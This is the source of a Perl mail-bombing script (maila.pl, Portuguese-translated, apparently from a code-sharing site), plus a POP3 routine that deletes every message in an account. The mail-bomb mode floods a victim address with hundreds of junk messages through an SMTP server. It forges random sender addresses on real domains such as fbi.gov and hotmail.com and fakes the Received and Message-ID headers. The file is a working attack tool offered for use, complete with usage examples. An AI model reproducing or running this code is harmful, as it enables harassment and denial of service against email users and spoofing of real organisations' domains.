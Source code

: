# bombeeer.py
#!/usr/bin/perl ########################################################### #              maila.pl 0.1.5   by guybrush`              # ########################################################### # Este script é a cura e a doença ao mesmo tempo. É um    # # mail bomber que pode ser executado em um servidor em    # # background. Mas é também equipado com um limpador de    # # caixa de correio, para neutralizar mailbombings de ou-  # # tras pessoas.                                           # ########################################################### # Requisitos:                                             # # ------------------------------------------------------- # # 1. Um computador  :)                                    # # 2. Um servidor SMTP que permita enviar emails           # # 3. Uma vida                                             # ########################################################### # Uso:                                                    # # ------------------------------------------------------- # # ./maila.pl [-c -s servidor -u userid -p password]       # #            [-m -s servidor -d email -n number]          # # -c - Ativa o limpador de pop3                           # #    -s - endereço do servidor pop3                       # #    -u - userid da conta                                 # #    -p - senha da conta                                  # # -m - Ativa o mail bomber                                # #    -s - servidor de email que permita enviar emails     # #    -d - endereço de email da vitima                     # #    -n - número de mensagens que vai enviar              # ########################################################### # Greets:                                                 # # ------------------------------------------------------- # # Thanks to #perl@ircnet, DeMa, raptor, me, myself and I  # # Traduzido por: mauricio@vendomicro.com.br               # ###########################################################  use IO::Socket; use Getopt::Std; getopts("cms:u:p:d:n:"); if ($opt_c &amp;&amp; $opt_m) { usage(); } if (!$opt_c &amp;&amp; !$opt_m) { usage(); } if ($opt_c) { if (!($opt_s) || !($opt_u) || !($opt_p)) { usage(); } } if ($opt_m) { if (!($opt_s) || !($opt_d) || !($opt_n)) { usage(); } }  if ($opt_c) { $host = $opt_s; $user = $opt_u; $pass = $opt_p; $remote = IO::Socket::INET->new(Proto=>"tcp",PeerAddr=>"$host",PeerPort=>"110") || die "Host não encontrado, parou em"; print "Limpando a conta $user\@$host ...\n"; $temp = &lt;$remote>; if ($temp =~ m/OK/) { print $remote ("user $user\r\n"); } else { die; } $temp = &lt;$remote>; if ($temp =~ m/OK/) { print $remote ("pass $pass\r\n"); } else { die; } $temp = &lt;$remote>; if ($temp =~ m/OK/) { print $remote ("list\r\n"); } else { die; } $temp = &lt;$remote>; if ($temp =~ m/OK/) {   while (&lt;$remote> !~ /^\./) {   $temp = &lt;$remote>;   ($cn, $rudo) = split(/ /,$temp);  }  print "Apagando $cn mensagens...\n";  for ($i = 1;$i &lt;= $cn;$i++) {   print $remote ("dele $i\r\n");   if ($temp =~ m/OK/) { next; }  } } else { die; } print "Feito!\n"; print $remote "quit\n"; $remote->flush(); close($remote); }  if ($opt_m) { $host = $opt_s; $rcpt = $opt_d; $numb = $opt_n; print "Mailbombing $rcpt com $numb mensagens...\n"; for ($i = 1; $i &lt;= $numb; $i++) {  $remote = IO::Socket::INET->new(Proto=>"tcp",PeerAddr=>"$host",PeerPort=>"25") || die "Host nao encontrado, parou em";  $temp = &lt;$remote>;  if ($temp =~ m/220/) { print $remote "helo hackers.com\n"; } else { next; }  $temp = &lt;$remote>;  $mitt = &amp;mittente;  if ($temp =~ m/250/) { print $remote "mail from: $mitt\n"; } else { next; }  $temp = &lt;$remote>;  if ($temp =~ m/250/) { print $remote "rcpt to: $rcpt\n"; } else { next; }  $temp = &lt;$remote>;  if ($temp =~ m/250/) { print $remote "data\n"; } else { next; }  $temp = &lt;$remote>;  $messaggio = &amp;messaggio;  if ($temp =~ m/354/) { print $remote "$messaggio\n"; } else { next; }  $temp = &lt;$remote>;  if ($temp =~ m/250/) { print $remote "quit\n"; } else { next; }  $remote->flush();  close($remote);  } print "Feito!\n"; }  sub messaggio { $a = "a,b,c,d,e,f,g,h,i,l,m,n,o,p,q,r,s,t,u,v,z,j,k,w,x,y,1,2,3,4,5,6,7,8,9,0,A,B,C,D,E,F,G,H,I,L,M,N,O,P,Q,R,S,T,U,V,Z,X,Y,J,K"; (@alfa) = split(/,/,$a); $messa = "Received: by s0gamelo.it id AA11212 with SMTP; Sun, 12 Oct 97 13:40:58\nMessage-ID: &lt;123.AA11345\@fanculo.com>\nTo: &lt;$rcpt>\nDate: Sun, 12 Oct 97 11:30:27\nSubject: Try to save yourself\n\n@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)]\n@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)]\n@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)]\n@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)]\n@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)]\n\n.\n"; $messa }  sub mittente { $a = "a,b,c,d,e,f,g,h,i,l,m,n,o,p,q,r,s,t,u,v,z,j,k,w,x,y,1,2,3,4,5,6,7,8,9,0"; (@alfa) = split(/,/,$a); $m = @alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)].@alfa[rand($#alfa)]; @domains = ("microsoft.com","libero.it","tiscalinet.it","katamail.it","tin.it","mail.com","hotmail.com","cia.gov","fbi.gov","nasa.gov","hackers.com","adultcheck.com","ciao.it","trovamore.com","abc.de","cybererotica.com","pmp.it","infinito.it","mp3.com","yahoo.com","ciaoweb.it","galactica.it","namezero.com","flashnet.it","ircd.it","funet.fi","stealth.net","webbernet.net","tvtb.it"); $dominio = @domains[rand($#domains)]; $mittente = "$m\@$dominio"; $mittente }  sub usage { print STDERR &lt;&lt;EOF; Uso: $0 [-c -s server -u userid -p password] [-m -s server -d address -n number]    -c - Ativa o limpador de pop3                                  -s - endereço do servidor pop3                              -u - userid da conta                                        -p - senha da conta                                      -m - Ativa o mail bomber                                       -s - servidor de email que permita enviar emails            -d - endereço de email da vitima                            -n - número de mensagens que vai enviar         Examplos: $0 -c -s pop3.server.com -u foobar -p dunno           $0 -m -s mail.server.cz -d foobar\@server.com -n 500 EOF exit; }
